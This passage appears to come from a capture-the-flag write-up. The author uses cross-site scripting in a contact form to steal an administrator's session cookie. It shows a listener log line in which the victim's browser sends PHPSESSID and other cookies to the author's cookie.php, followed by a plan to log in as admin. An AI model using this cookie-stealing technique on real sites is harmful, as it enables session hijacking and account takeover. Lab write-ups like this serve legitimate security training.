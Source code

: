 After the failed SQLi I decided to come back to the form. The PDF file does state that the form is being sent to the IT Administrator. Perhaps I can grab the cookie?
I went ahead and started testing the other parameters and did get something to work!

![Example Image](images/xss-1.png)

```bash
10.10.10.113 - - [14/May/2024 23:47:11] code 404, message File not found
10.10.10.113 - - [14/May/2024 23:47:11] "GET /cookie.php?c=PHPSESSID=4t1c9gs1ja972muc6dcovo7ic4;%20LANG=EN_US;%20SINCE=1715759235;%20LIMIT=10;%20DOMAIN=admin HTTP/1.1" 404 -
```

Now we should be able to login to the messaging system as an admin! (hopefully)

![Example Image](images/admin-messages.png)
